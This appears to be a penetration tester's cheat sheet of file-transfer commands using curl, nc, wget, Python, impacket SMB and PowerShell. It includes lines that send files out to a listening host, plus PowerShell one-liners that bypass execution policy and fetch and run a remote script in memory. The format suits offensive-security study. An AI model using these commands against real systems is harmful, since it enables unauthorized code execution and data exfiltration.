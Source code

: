 # General - File Transfer

### Server side

###### Python - Web Server
```python
python -m SimpleHTTPServer <PORT>
```
###### curl
```bash
# Needs the receiver to be listening
curl -F 'data=@<FILE>' http://<IP>:<PORT>
```

###### nc
```bash
# Needs the receiver to be listening
nc -w 3 <IP> <PORT> < <FILE>
Get-Content <FILE> | ./nc.exe -w 3 <IP> <PORT>
```

###### impacket-smbserver - SMB share
```bash
impacket-smbserver <SHARE_NAME> <SHARE_PATH>
impacket-smbserver <SHARE_NAME> `pwd`
```

### Client side

###### wget
```bash
wget http:/<IP>:<PORT>/<FILE>
wget -O file http://<IP>:<PORT>t/<FILE>
wget -r --no-parent -nH --reject "index.html*" http://<IP>:<PORT>/<DIR>
```

###### curl
```bash
curl http://<IP>:<PORT>/<FILE> > out.file
curl -O http://<IP>:<PORT>/<FILE>
```

###### netcat
```bash
nc -l -p <PORT> > out.file
nc -l -p <PORT> | tee out.file
```

###### Python
```python
python -c "from urllib import urlretrieve; urlretrieve('http://<IP>:<PORT>/<FILE>', '<OUT.FILE>')"
python3 -c "from urllib.request import urlretrieve; urlretrieve('http://<IP>:<PORT>/<FILE>', 'out.file')"
```

###### Powershell
```powershell
Invoke-WebRequest -Uri <URL> -OutFile <FILE>
(New-Object Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>', '<FULLPATH\FILENAME>');

# Load in memory and execute
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>'); Invoke-ImportedCMD"
echo IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>') | powershell -nop -exec bypass -

# Connect to a SMB share
New-PSDrive -Name "LocalMountedFolder" -PSProvider "FileSystem" -Root "\\<IP>\<SHARE>"; cd LocalMountedFolder:
```
